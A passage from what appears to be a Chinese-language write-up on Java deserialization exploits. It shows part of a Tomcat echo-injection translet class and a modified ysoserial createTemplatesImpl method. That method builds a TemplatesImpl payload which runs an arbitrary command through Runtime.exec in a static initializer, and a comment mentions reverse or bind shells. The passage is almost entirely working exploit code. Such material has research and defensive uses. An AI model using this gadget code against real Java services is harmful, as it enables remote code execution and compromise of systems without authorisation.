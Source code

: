 ```java

  }

  @Override
  public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
      throws TransletException {

  }
}
```

编译后生成TomcatEchoInject.class字节码，我们继续稍稍改造一下createsTemplatesImpl（上一个Part里是直接粘了恶意代码然后调用createsTemplatesImpl，这里我们已经单独生成了class）

```java
public static Object createTemplatesImpl ( final String command) throws Exception {
    return createTemplatesImpl(command, null);
}

public static Object createTemplatesImpl ( final String command, final Class c ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command, c,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

    return createTemplatesImpl(command, c, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}


public static <T> T createTemplatesImpl ( final String command, Class c, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
    final T templates = tplClass.newInstance();
    final byte[] classBytes;
    if (c == null) {
        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
            command.replaceAll("\\\\", "\\\\\\\\").replaceAll("\"", "\\\"") +
            "\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);
        classBytes = clazz.toBytecode();
    } else {
        classBytes = ClassFiles.classAsBytes(c);
    }


    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes, ClassFiles.classAsBytes(Foo.class)
```